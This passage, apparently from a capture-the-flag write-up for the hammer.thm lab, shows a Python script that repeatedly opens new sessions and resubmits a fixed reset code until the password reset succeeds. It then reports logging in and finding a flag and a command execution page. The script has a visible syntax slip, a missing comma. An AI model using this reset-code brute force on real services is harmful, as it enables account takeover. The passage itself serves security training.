 ```python

def submit_otp(session, otp):
    data = {
        'recovery_code': otp,
        's': 170
    }

    return session.post(url, data=data headers=headers)

def try_until_success():
    otp = 1234

    while True:
        session = requests.Session()
        forgot_password(session)
        response = submit_otp(session, otp)

        if not_successful(response): continue

        if reset_password(session, 'password').status_code == 200:
            print('Successfully reset the password!')
        else:
            print('Failed to reset the password!')

        break;

try_until_success()
```

After several minutes, the password was successfully reset:

![Successfully Password Reset](images/successful-password-reset.png)

## Gaining Access

With the new credentials (`tester@hammer.thm : password`), logging into the application revealed the first flag and a command execution interface:

![Dashboard Page - First Flag](images/dashboard-page-first-flag.png)
